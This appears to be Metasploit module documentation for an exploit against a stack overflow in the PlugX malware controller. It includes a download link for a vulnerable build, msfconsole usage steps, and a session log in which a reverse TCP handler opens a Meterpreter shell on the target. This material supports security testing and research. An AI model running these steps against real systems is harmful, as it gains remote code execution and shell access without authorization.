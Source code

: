 ## Vulnerable Application

  This module exploits a stack overflow in the Plug-X Controller when handling a larger than expected message.
  This vulnerability can allow remote code execution however it causes a popup message to be displayed on the target before execution is gained.
  
  A vulnerable version of the software is available here: [PlugX type 1](https://github.com/rapid7/metasploit-framework/files/1243293/9f59a606c57217d98a5eea6846c8113aca07b203e0dcf17877b34a8b2308ade6.zip)

## Verification Steps

  1. Run the application
  2. Start msfconsole
  3. Do: `use exploit/windows/misc/plugx`
  4. Do: `set rhost [ip]`
  5. Do: `set target [target]`
  6. Do: `exploit`
  7. Click OK for the "PeDecodePacket" pop-up on the target
  8. Get a shell

## Scenarios

### Windows XP SP3 with PlugX type 1

```
msf > use exploit/windows/misc/plugx 
msf exploit(plugx) > set rhost 1.2.3.4
rhost => 1.2.3.4
msf exploit(plugx) > set target 1
target => 1
msf exploit(plugx) > set verbose true
verbose => true
msf exploit(plugx) > exploit

[*] Started reverse TCP handler on 1.2.3.99:4444 
[*] 1.2.3.4:13579 - Trying target PlugX Type I...
[*] 1.2.3.4:13579 - waiting for response
[*] Sending stage (956991 bytes) to 1.2.3.4
[*] Meterpreter session 1 opened (1.2.3.99:4444 -> 1.2.3.4:1975) at 2017-09-04 19:53:07 -0400
[*] 1.2.3.4:13579 - Server closed connection

meterpreter > getuid
Server username: WINXP\user
```
